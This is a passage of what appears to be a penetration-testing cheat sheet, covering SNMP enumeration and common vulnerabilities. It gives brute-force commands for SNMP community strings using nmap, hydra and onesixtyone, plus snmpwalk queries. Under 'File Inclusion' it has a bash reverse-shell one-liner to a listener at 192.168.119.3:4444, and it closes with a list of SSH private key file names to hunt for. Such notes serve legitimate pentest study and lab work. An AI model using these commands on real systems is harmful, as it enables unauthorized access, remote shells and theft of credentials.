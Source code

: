 

if you are in a windows domain

```
nslookup INTERNALSRV1.BEYOND.COM
```



#### Port 161 (SNMP)

- Brute force community string

  ```
  nmap --script=snmp-brute <target>
  			  snmp-interfaces
  
  hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt <target-ip> snmp
  
  onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt <target-ip>
  ```

- Once you have a valid community string

  ```
  snmpwalk -v [VERSION_SNMP] -c [COMM_STRING] [DIR_IP]
  snmpwalk -v [VERSION_SNMP] -c [COMM_STRING] [DIR_IP] 1.3.6.1.2.1.4.34.1.3
  
  snmp-check [DIR_IP] -p [PORT] -c [COMM_STRING]
  nmap --script=<snmp-xxx> <target>
  ```

- Extended Queries

  ```
  snmpwalk -<version> -c <CommunityString> <IP> NET-SNMP-EXTEND-MIB::nsExtendOutputFull
  
  snmpwalk --<version> -c <CommunityString> <IP>  NET-SNMP-EXTEND-MIB::nsExtendObjects  
  ```

  



## Common Vuln

### 1. Directory Traversal

### 2. File Inclusion

```
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
```



SSH Private Key Name

```
id_rsa
id_ecdsa
id_ed25519
id_dsa
id_ed25519_sk
id_ecdsa_sk
```

